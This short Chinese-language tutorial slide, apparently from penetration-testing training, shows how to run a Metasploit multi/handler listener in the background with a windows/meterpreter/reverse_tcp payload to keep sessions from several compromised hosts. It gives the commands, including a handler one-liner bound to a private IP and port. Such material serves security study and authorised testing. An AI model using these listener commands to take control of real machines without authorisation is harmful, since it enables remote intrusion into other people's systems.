

# handler后台持续监听 控制多台主机

msf exploit(multi/handler) > exploit -j -z
使用exploit -j -z可在后台持续监听,-j为后台任务，-z为持续监听，使用Jobs命令查看和管理后台任务。jobs -K可结束所有任务。
也就是用于等待建立多个连接

建立监听
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
还有种比较快捷的建立监听的方式，在msf下直接执行：
msf5 > handler -H 192.168.8.124 -P 1122 -p windows/meterpreter/reverse_tcp
只要有人和我建立连接，我就会和他建立回话